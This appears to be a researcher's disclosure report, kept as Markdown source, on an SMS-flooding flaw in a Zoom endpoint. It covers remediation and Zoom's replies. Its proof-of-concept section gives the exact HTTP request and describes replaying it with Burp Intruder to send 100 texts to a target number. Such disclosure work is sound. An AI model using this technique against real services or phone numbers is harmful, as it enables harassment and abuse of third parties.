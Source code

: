 ```yaml
---
layout: reports
permalink: /reports/GWA-2020-017/
tagline: "On 25 February 2020 GlitchWitch discovered an SMS flooding vulnerability that was actively being exploited."
image:
  feature:
  hero:
report-id: GWA-2020-017
---
```


## Summary
Due to the lack of rate limiting or captcha on a specific end-point it is possible for an unauthenticated attacker to send a large number of SMS text messages to a phone number of their choosing.

This allows a remote unauthenticated attacker to abuse the service and perform "SMS Flooding", resulting in the target receiving hundreds or thousands of SMS text messages per minute.


>[About Zoom:](https://zoom.us/about/) "Zoom is the leader in modern enterprise video communications, with an easy, reliable cloud platform for video and audio conferencing, collaboration, chat, and webinars across mobile devices, desktops, telephones, and room systems."

## Proof of Concept
First we must craft a request to the vulnerable end-point. The request body is as follows.

```http
POST /mobile/sendtextlink?num=6475551337&req=0 HTTP/1.1
Host: zoom.us
Connection: close
Content-Length: 22
User-Agent: Hacker 7.23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate

phoneNumber=6475551337
```
In this case we used a free phone number provided by our friends at [TextNow](/blog/2018-02/textnow-security-update) as our target for testing.

Once we have crafted this request, we can use Burp intruder to repeat the request a desired number of times. For our proof of concept we choose numerical sequence of 100.

We can note that the first response was received at `12:50:09` and the last response was received at `12:50:19`. Since 100 requests were sent we can determine that messages can be sent at a minimum rate of 10 messages per second, or 600 per minute from a single attack.

![image tooltip here](/assets/img/sections/reports/2020/017/1-intruder-positions.png)

![image tooltip here](/assets/img/sections/reports/2020/017/2-intruder-response.png)

As shown in the following screenshots 100+ sms messages were received by the target.

| ![image tooltip here](/assets/img/sections/reports/2020/017/victim-1.png) |![image tooltip here](/assets/img/sections/reports/2020/017/victim-2.png) |![image tooltip here](/assets/img/sections/reports/2020/017/victim-3.png)
{:.table-boring}



## Active Exploitation

At 2:57 AM on 25 Feburary, Twitter user `@scottbix` posted [a video of his phone being flooded with messages](https://twitter.com/scottbix/status/1232137526061752322) from various platforms, including but not limited to Zoom. Based on this example we can determine with a high degree of certainty that this vulnerability is actively being exploited for malicious purposes.

## Recommended Actions
 - Implement captcha and other rate limiting controls to prevent abuse.
 - Discontinue unused end-points
 - Implement a security and bug reporting information such as a [security.txt](https://securitytxt.org/) file so security researchers can more easily report findings in the future.
 - Perform a full penetration test of the web platform and API to identify further issues.

## Remediation Status
On 02 March 2020 Glitchwitch re-tested this issue and has noted that it has been fixed. Requests to the vulnerable end-point now respond with HTTP error code 404, indicating the end-point has been removed.

## Response From security@zoom.us
_On Friday, February 28, 2020 19:06, Zoom (Security) <security@zoomus.zendesk.com> wrote:_
> Hi,
>
> Thank you for your report! We’ve opened a ticket internally to do further investigation and make the necessary fixes. I’ll keep you appraised of any new information as it develops.
>
>
Zoom Video Communications


## Response From security@zoom.us
_On Monday, March 2, 2020 20:54, Zoom (Security) <security@zoomus.zendesk.com> wrote:_
> We’ve opted currently to remove the functionality entirely as we no longer view it as a necessary component for onboarding. We’d ask that we can coordinate with you on publication of your findings here. If that’s amenable to you I’d like to put you in touch with someone on our Comms team. Regardless, thank you again for finding and bringing this to our attention!
>
>
Zoom Video Communications
